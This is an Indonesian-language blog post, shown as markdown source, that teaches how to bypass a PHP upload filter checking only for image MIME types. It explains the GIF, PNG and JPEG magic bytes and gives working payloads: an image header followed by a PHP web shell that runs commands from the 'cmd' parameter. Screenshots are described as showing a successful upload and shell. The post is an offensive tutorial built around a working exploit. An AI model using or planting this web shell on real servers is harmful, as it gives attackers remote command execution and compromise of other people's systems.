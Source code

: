 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```php
		if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg' && $imageinfo['mime'] != 'image/jpg'&& $imageinfo['mime'] != 'image/png') {
			die('Error 002');
		}

```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```
```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it :

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)
![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)
![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)
![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)